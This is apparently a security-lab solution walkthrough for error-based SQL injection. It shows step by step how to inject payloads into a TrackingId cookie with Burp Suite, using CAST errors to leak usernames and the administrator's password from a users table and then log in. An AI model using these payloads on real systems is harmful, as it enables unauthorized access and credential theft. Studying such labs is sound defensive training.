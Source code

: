 ## Solution steps

- Open Burp Suite and go to the Proxy > HTTP history tab and find a GET / request that contains a TrackingId cookie.
- In Repeater, append a single quote to the value of your TrackingId cookie and send the request: TrackingId=ogAZZfxtOKUELbuJ'
- Notice the verbose error message. This discloses the full SQL query, including the value of your cookie. It also explains that you have an unclosed string literal. Observe that your injection appears inside a single-quoted string.
- Add comment characters to comment out the rest of the query: TrackingId=ogAZZfxtOKUELbuJ'--
- Send the request. Confirm that you no longer receive an error.
- Adapt the query to include a generic SELECT subquery and cast the returned value to an int data type: TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--
- Send the request. Observe that you now get a different error saying that an AND condition must be a boolean expression.
- Add a comparison operator (=) as follows: TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--
- Send the request. Confirm that you no longer receive an error. This suggests that this is a valid query again.
- Adapt your generic SELECT statement so that it retrieves usernames from the database: TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--
- Observe that you receive the initial error message again. Notice that your query now appears to be truncated due to a character limit.
- Delete the original value of the TrackingId cookie to free up some additional characters. Resend the request.
- TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--
- Notice that you receive a new error message, which appears to be generated by the database. This suggests that the query was run properly, but you're still getting an error because it unexpectedly returned more than one row.
- Modify the query to return only one row: TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
- Send the request.
- Observe that the error message now leaks the first username from the users table: ERROR: invalid input syntax for type integer: "administrator"
- Now that you know that the administrator is the first user in the table, modify the query once again to leak their password: TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
- Log in as administrator
